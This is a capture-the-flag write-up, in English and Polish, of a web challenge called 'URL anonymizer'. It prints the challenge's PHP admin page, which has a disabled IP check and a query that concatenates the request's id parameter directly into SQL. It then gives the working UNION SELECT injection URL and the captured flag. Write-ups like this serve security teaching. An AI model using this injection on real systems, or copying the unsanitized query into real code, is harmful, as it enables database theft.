



# URL anonymizer (web, 200p)

###ENG
[PL](#pl-version)

In description of the task we got URI pointing to source of admin.php and information that the application provides URL shortening functionality.
Source of file : http://10.13.37.12/admin.php?source

```php
<?php
include_once('config.php');

if(isset($_GET['source']) && $_SERVER['SCRIPT_FILENAME'] == __FILE__) {
    highlight_file(__FILE__);
    die();
}

//lazy admin approach to "authenticate"
if($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') {
    //die('You are not allowed.');
}

$title      = '';
$content = '';
$page    = @$_REQUEST['page'];
        
switch($page) {
    case '':
    default:
        
    break;
    case 'reports':
        $title = 'Reports';
        $q = $db->query('SELECT * FROM `reports` where view=0');
        while($row = $q->fetch_array()) {
            $content .= '<div class="r"><a href="http://localhost/admin.php?page=report&id='.$row['hash'].'">Report '.$row['id'].'</a><a href="http://localhost/admin.php?page=hide&id='.$row['id'].'">Hide</a></div>';
        }
    break;
    case 'hide':
        $id = intval(@$_REQUEST['id']);
        $db->query('UPDATE reports set view=1 where id='.$id);
    break;
    case 'report':
        if(isset($_GET['id'])) {
            $r        = $db->query('SELECT * FROM `urls` where hash="'.$_GET['id'].'"');
            $r        = $r->fetch_array();
            $content .= 'Clicked: '.(intval($r['hits'])>0?'Yes':'No');
            $content .= '<br>Reported URL: '.$r['url'];
            $db->query('UPDATE reports SET view=1 WHERE hash="'.$db->real_escape_string($_GET['id']).'"');
        }else {
            die('Invalid Request.');
        }
    break;
}
echo showContent($title, $content);
```

In general, we can see two different views , one where we can submit URL to be shortened



and the other place where we can submit wrongly working URL



However, the most interesting part is the admin.php and we can see that inside 'report' section we have unsanitized SQL Injection, therefore we try to reach this URL with already prepared query (UNION SELECT) and get in response:



URL : http://10.13.37.12/admin.php?page=report&id=1%22%20UNION%20SELECT%201,2,flag,4%20from%20flag%20where%201=%221
flag : DCTF{30bce3bb3c2b030c1480179046409729}

###PL version

W opisie zadania otrzymaliśmy  URI wskazujący na źródło pliku admin.php i informacje że aplikacja dostarcza możliwość skracania adresów URL.
Źródło pliku : http://10.13.37.12/admin.php?source

```php
<?php
include_once('config.php');

if(isset($_GET['source']) && $_SERVER['SCRIPT_FILENAME'] == __FILE__) {
    highlight_file(__FILE__);
    die();
}

//lazy admin approach to "authenticate"
if($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') {
    //die('You are not allowed.');
}

$title      = '';
$content = '';
$page    = @$_REQUEST['page'];
        
switch($page) {
    case '':
    default:
        
    break;
    case 'reports':
        $title = 'Reports';
        $q = $db->query('SELECT * FROM `reports` where view=0');
        while($row = $q->fetch_array()) {
            $content .= '<div class="r"><a href="http://localhost/admin.php?page=report&id='.$row['hash'].'">Report '.$row['id'].'</a><a href="http://localhost/admin.php?page=hide&id='.$row['id'].'">Hide</a></div>';
        }
    break;
    case 'hide':
        $id = intval(@$_REQUEST['id']);
        $db->query('UPDATE reports set view=1 where id='.$id);
    break;
    case 'report':
        if(isset($_GET['id'])) {
            $r        = $db->query('SELECT * FROM `urls` where hash="'.$_GET['id'].'"');
            $r        = $r->fetch_array();
            $content .= 'Clicked: '.(intval($r['hits'])>0?'Yes':'No');
            $content .= '<br>Reported URL: '.$r['url'];
            $db->query('UPDATE reports SET view=1 WHERE hash="'.$db->real_escape_string($_GET['id']).'"');
        }else {
            die('Invalid Request.');
        }
    break;
}
echo showContent($title, $content);
```

Po przejściu na  adres aplikacji, możemy zauważyc dwa widoki, jeden w którym możemy wysyłać URL do skrócenia 


i drugi widok, w którym możemy wysyłać źle działający URL


Jednal najciekawszym  elementem jest zasób admin.php w którym możemy zauważyć że w ramach case'a "report" mamy SQL Injection, więc staramy się wysłać zapytanie z przygotowanym zapytaniem (UNION SELECT) i otrzymujemy w odpowiedzi :


URL : http://10.13.37.12/admin.php?page=report&id=1%22%20UNION%20SELECT%201,2,flag,4%20from%20flag%20where%201=%221
flag : DCTF{30bce3bb3c2b030c1480179046409729}
